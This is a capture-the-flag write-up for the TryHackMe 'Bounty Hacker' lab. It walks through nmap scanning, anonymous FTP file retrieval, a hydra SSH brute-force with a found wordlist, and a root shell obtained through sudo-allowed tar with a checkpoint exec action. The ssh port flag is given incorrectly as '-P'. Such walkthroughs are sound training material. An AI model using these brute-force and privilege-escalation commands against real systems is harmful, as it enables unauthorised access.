# TryHackMe – Bounty Hacker Write-up

### Nmap Scan
 nmap -sV -A <IP address>


### ftp Access
ftp <IP address> 

 username anonymous 
 
 passsword anonymous

 
### ftp File Listing
 dir


### File Retrieval
 get task.txt



 get locks.txt


### File Content Enumeration
 cat task.txt



 cat locks.txt


### SSH brute-force
 hydra -l lin -P locks.txt ssh://<IP address>


### SSH Access
 ssh lin@<IP address> -P 2222 


### Privilege escalation
 sudo -l



#### Note:
 The output revealed that lin is allowed to execute /bin/tar as root

### root Access
 sudo tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh


#### Note: 
 use https://gtfobins.org/

